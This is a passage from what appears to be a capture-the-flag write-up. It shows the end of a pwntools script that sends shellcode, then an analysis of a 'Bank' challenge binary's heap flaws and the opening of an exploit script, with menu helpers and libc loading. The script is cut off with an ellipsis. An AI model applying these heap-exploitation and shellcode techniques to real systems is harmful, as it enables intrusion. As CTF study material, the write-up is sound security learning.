 ```python
        mov rsi, r8
        mov rdx, 0x40
        syscall

        """
    )
    p.send(code)

debugPID()
send_code()
debugPID()
irt()
```

# Bank

I won't provide an IDA screenshot here, but I'll briefly analyze the functionalities. In the `deposit` function, it doesn't return when `money = balance`, instead, it executes `cash += money`. On the other hand, in the `reduce_money` function, it returns when `money = balance`, without deducting the money from the `balance`.

Thus, we can exploit `put` and `deposit` functions to accumulate money. The main vulnerability lies in the `transfer` function. `admin` can be used to read any address on the heap, `hacker` can be used to free any address, `ghost` allows reallocating the `ptr` on the heap, `guest` can be employed to malloc a heap of `0x18` bytes and write `0x10` bytes, and `abyss` can execute `*result=read_ui()` in the initialization, triggering `exit(0);`.

Starting with setting up the menu, I made the `transfer` more complex than necessary due to not considering all possibilities initially. Separating them out is a more straightforward approach.

```python
from typing import Union, AnyStr, Tuple, Literal
from pwn import *

context(log_level='DEBUG', arch='amd64', os='linux')

sh = process(['./Bank'])
libc = ELF('./libc-2.31.so')

Money = Union[AnyStr, int, float]

# Function to convert various data types to bytes
def to_bytes(content: Money):
    return content if isinstance(content, bytes) else str(content).encode()

# Implementing menu functions
def menu(index: Literal[0, 2, 3, 4, 5, 6]):
    choice = ['Quit', "", 'Deposit', "Transfer", "Put", "Login", "Info"]
    sh.recvuntil(b"Click: ")
    sh.sendline(choice[index].encode())

# Other functions for login, info, deposit, transfer, etc.
...

```
